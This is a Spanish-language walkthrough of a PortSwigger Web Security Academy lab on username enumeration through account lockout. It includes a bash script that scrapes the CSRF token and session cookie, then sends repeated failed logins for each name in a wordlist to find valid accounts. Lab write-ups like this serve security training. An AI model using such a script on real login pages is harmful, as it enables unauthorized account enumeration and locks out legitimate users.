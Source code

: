 Al probarlo en el sitio web verificamos que completamos el nivel.

![fin](img14.png)

## 5. Lab: Username enumeration via account lock

```
https://ac681ff01fdae0fd800c26bb00a700dc.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Como son intentos para bloquear un usuario, entonces lo que haremos será consultar 4 veces cada usuario de la lista, cuando bloquee a un usuario, será porque ese usuario es válido, acontinuacion el script.

```bash
#!/bin/bash

URL='https://ac681ff01fdae0fd800c26bb00a700dc.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`
do
    echo "Probando para USER=$USER"
    for i in `seq 1 4`
    do
	    DATA='csrf='$CSRF'&username='$USER'&password=a'
	    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	    if echo $RESULT | grep -oP "Invalid username or password." > $NULL
	    then
		    echo -ne ""
	    else
		    echo "Valid user: $USER"
		    break
	    fi
    done
done
```
